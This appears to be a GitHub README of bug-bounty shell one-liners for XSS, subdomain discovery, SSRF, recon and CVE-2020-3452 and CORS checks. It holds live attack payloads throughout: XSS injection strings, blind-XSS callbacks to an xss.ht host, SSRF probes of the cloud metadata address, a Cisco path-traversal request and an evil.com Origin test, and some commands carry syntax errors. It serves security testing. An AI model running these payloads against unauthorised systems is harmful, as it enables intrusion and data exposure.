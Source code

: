 # For loops and one liners for bug bounty 
Credits goes to all those awesome researchers who uploaded these on Twitter and GitHub  

Please Note: Kindly use this only for reference and learning purposes using this doesn't means that you will find Vulnerabilities cause everybody is using this so try to be creative while using it and modify them to get unique results :)

## One Liners for XSS

### Using DALFOX to send the result for xss

```bash
cat target_list| gau | egrep -o "http?.*" | grep "="| egrep -v ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | dalfox pipe -blind https://yours.xss.ht -o result.txt
```

### XSS without GF Patterns

```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done

```

### Using Gospider with Dalfox to find XSS

```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o output.txt
```

### Scan subdomains from Bounty Targets data Using DalFox for XSS

```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; | subfinder -dL domains.txt | httpx -silent -threads 500 | tee -a subdomains.txt | dalfox file subdomains.txt -b your.xss.ht pipe

```
### Using Kxss for finding xss 

```bash
cat http://subdomains.txt | waybackurls | kxss
```

### Using Gospider with qsreplace

```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg/onload=confirm(1);>'
```

************************************************************************************************************************************


## For Finding Subdomains AssetDiscovery  

### For making a huge wordlist of subdomains with Rapid 7 FDNS @m4ll0k

Download the zip file from here
```bash
gzip -dc latestfile-fdns_a.json.gz | jq .name | sed 's/"//g' | xargs -I @bash -c 'tldextract @' | awk '{print $1}' >> mysubs.txt 
```

### One liner to fetch all URLs in scope of all public programs @_ayoubfathi_

```bash
curl -s https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/hackerone_data.json | jq -r '.[].targets.in_scope[] | select(.asset_type|contains("URL")) | .asset_identifier' |grep -v "*" | sort
```
### Finding Subdomains from crt.sh @vict0ni

```bash
curl -s "https://crt.sh/?q=%25.$1&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u
```

### From Bounty Targets Data @dwisiswant0

For Hackerone
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/blob/master/data/hackerone_data.json?raw=true | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type] | @tsv'

```
For Bugcrowd
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'

```
For Intigriti
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/intigriti_data.json | jq -r '.[].targets.in_scope[] | [.endpoint, .type] | @tsv'

```

### For Finding ASN's of a ORG using amass @KingOFBugBounty
```bash
amass intel -org paypal -max-dns-queries 2500 | awk -F, '{print $1}' ORS=',' | sed 's/,$//' | xargs -P3 -I@ -d ',' amass intel -asn @ -max-dns-queries 2500''

```

### While Loop For Subfinder To Discovery new Subdoamins it will run Every 2 hours

```bash
while true; do subfinder -dL domains.txt -all | anew subdomains1.txt | httpx | notify ; sleep 7200; done
```
Note: Before running the above command make sure you do the below first:
Run `subfinder -dL domains.txt -all >> subdomains1.txt`

Install nuclei, subfinder, Notify and anew



### Brute Force List of subdomains using FFuf

```bash
for url in ` cat $filename `; do ffuf -c -w path.txt -u $url/FUZZ -o result.json ; done >> result.txt
```

### For finding Hidden Servers and Admin Panles @rez0

```bash
ffuf -c -u https://target .com -H "Host: FUZZ" -w vhost_wordlist.txt 

```

## One liners for SSRF

### Using waybackurls and gau @R0X4R
After finding subdomains with HTTPX run the Following

```bash
cat subdomains.txt | gauplus --random-agent -b png,jpg,svg,gif -t 100 | anew -q gau_output.txt
cat subdomains.txt | xargs -P 30 -I host bash -c "echo host | waybackurls | anew -q wayback_output.txt"
cat wayback_output.txt gau_output.txt | urldedupe -s | anew -q parameters.txt

Mannual
cat parameters.txt | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I host -P 50 bash -c "curl -ks 'host' | grep \"compute.internal\" && echo -e \"[VULNERABLE] - X \n \"" | grep "VULN"


Using OOB
cat parameters.txt | gf ssrf | anew -q ssrf.txt

cat ssrf.txt | qsreplace "interactsh server ID" | anew -q ssrf_test.txt
ffuf -w ssrf_test.txt -u FUZZ -p "0.6-1.2" -H "(header in thread)" -t 200 -s

```
### Using nuclei and Gf for microstrategy SSRF @Virdoex_hunter
```bash
subfdiner -dL domains.txt | httpx | gau | gf ssrf | nuclei -t ~/nuclei-templates/vulnerabilities/other/microstrategy-ssrf.yaml -o result.txt

```
## One Liners for Recon and Visual inspection

### Using Assetfinder with gowitness

```bash
assetfinder -subs-only army.mil | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @' 
```

### Find Subdomains using Subfinder and opens them on Firefox @payloadartists

```bash
subfinder -d $1 -silent -t 100 | httprobe -c 50 | sort -u | while read line; do firefox $line; sleep 10; done

```


## One Liners for information disclosure

### Using WaybackURL to find Excel File leads to PII Disclosure @M0_SADAT

```bash
gau http://hacked-site.com | waybackurls | grep ".xlsx"

```


## One Liners for CVE and and other Vulnerabilties

### To find CVE 2020-3452 

```bash
while read domains.txt; do curl -s -k "https://$domains/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```

### CORS Missconfiguration @ManasH4rsh

```bash
site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

```



